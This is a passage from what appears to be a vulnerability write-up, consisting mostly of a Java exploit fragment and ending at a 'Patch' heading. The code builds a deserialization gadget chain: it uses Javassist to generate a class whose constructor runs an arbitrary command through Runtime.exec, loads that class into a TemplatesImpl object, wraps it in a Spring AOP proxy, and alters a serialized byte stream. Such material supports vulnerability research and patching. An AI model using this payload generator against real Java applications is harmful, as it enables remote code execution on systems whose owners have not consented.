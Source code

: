 ```java
        byte[] data = ser(exception);
        data[8] = "o".getBytes()[0]; // AC ED 00 05 74 00 05 68
        return data;
    }
    public static Object makeTemplatesImpl(String cmd) throws Exception{
        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.makeClass("a");
        CtClass superClass = pool.get(AbstractTranslet.class.getName());
        clazz.setSuperclass(superClass);
        CtConstructor constructor = new CtConstructor(new CtClass[]{}, clazz);
        constructor.setBody("Runtime.getRuntime().exec(\"" + cmd + "\");");
        clazz.addConstructor(constructor);
        byte[][] bytes = new byte[][]{clazz.toBytecode()};
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setFieldValue(templates, "_bytecodes", bytes);
        setFieldValue(templates, "_name", "test");
        setFieldValue(templates, "_tfactory", null);
        return templates;
    }
    public static Object makeTemplatesImplAopProxy(String cmd) throws Exception {
        AdvisedSupport advisedSupport = new AdvisedSupport();
        advisedSupport.setTarget(makeTemplatesImpl(cmd));
        Constructor constructor = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy").getConstructor(AdvisedSupport.class);
        constructor.setAccessible(true);
        InvocationHandler handler = (InvocationHandler) constructor.newInstance(advisedSupport);
        Object proxy = Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{Templates.class}, handler);
        return proxy;
    }

    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }
}
```

# Patch
